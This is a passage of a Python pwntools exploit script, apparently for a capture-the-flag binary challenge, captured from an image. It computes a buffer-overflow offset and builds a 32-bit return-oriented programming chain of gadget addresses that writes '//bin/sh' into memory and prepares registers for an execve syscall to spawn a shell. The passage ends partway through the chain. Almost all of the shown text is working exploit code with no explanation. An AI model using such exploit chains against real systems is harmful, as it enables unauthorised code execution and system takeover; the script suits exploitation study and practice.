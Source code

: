 ```
    global_timeout = 3
    p = remote(REMOTE, REMOTEPORT)
else:
    global_timeout = 0.5
    p = process(PROGNAME)
    p = start()
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
offset = cyclic_find(0x61616164)
inc_eax = 0x08061433
# ALt: 0x08065480
int_0x80 = 0x0804a422
pop_eax = 0x080518e5
pop_edx_ebx_esi = 0x0805f5b6
edx_eax = 0x08058eb2
eax_edx = 0x08090dd8
xor_eax = 0x0804fa20
pop_ecx_alf6 =  0x0805d761
writable_region = 0x8049d5a
junk = p32(0)

chain = (
    p32(pop_eax)
    + b'//bi'
    + p32(pop_edx_ebx_esi)
    + p32(writable_region)
    + junk
    + junk
    + p32(edx_eax)
    + p32(pop_eax)
    + b'n/sh'
    + p32(pop_edx_ebx_esi)
    + p32(writable_region+4)
    + junk
    + junk
    + p32(edx_eax)
    + p32(xor_eax)
    + p32(pop_edx_ebx_esi)
    + p32(writable_region+8)
    + junk
    + junk
    + p32(edx_eax)
    + p32(pop_eax)
    + p32(writable_region)
    + p32(pop_edx_ebx_esi)
    + p32(writable_region+12)
    + junk
    + junk
    + p32(edx_eax)
    + p32(xor_eax)
    + p32(pop_edx_ebx_esi)
    + p32(writable_region+16)
    + junk
    + junk
    + p32(edx_eax)
    + p32(pop_edx_ebx_esi)
    + p32(writable_region+8)
    + p32(writable_region)
    + junk
    + p32(pop_ecx_alf6)
    + p32(writable_region+12)
    + p32(xor_eax)
```